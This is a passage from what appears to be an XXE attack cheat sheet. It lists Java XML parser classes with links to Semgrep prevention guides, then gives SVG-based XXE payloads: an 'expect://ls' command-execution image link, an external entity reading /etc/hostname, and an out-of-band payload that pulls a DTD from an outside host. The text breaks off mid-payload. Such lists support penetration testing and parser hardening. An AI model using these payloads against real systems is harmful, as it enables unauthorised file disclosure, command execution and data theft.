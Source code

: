 ![XXE Java security features overview infographics](https://semgrep.dev/docs/assets/images/cheat-sheets-xxe-java-infographics-1d1d5016802e3ab8f0886b62b8c81f21.png)

- [DocumentBuilderFactory (javax.xml.parsers.DocumentBuilderFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3a-documentbuilderfactory)
- [SAXBuilder (org.jdom2.input.SAXBuilder)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3b-saxbuilder)
- [SAXParserFactory (javax.xml.parsers.SAXParserFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3c-saxparserfactory)
- [SAXParser (javax.xml.parsers.SAXParser )](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3d-saxparser)
- [SAXReader (org.dom4j.io.SAXReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3e-saxreader)
- [TransformerFactory (javax.xml.transform.TransformerFactory) & SAXTransformerFactory (javax.xml.transform.sax.SAXTransformerFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3f-transformerfactory--saxtransformerfactory)
- [SchemaFactory (javax.xml.validation.SchemaFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3g-schemafactory)
- [Validator (javax.xml.validation.Validator)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3h-validator)
- [XMLReader (org.xml.sax.XMLReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3i-xmlreader)

Ref.

- [Semgrep - XML Security in Java](https://semgrep.dev/blog/2022/xml-security-in-java)
- [Semgrep - XML External entity prevention for Java](https://semgrep.dev/docs/cheat-sheets/java-xxe/)

## XXE in exotic files

### XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**OOB via SVG rasterization**

_xxe.svg_

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
```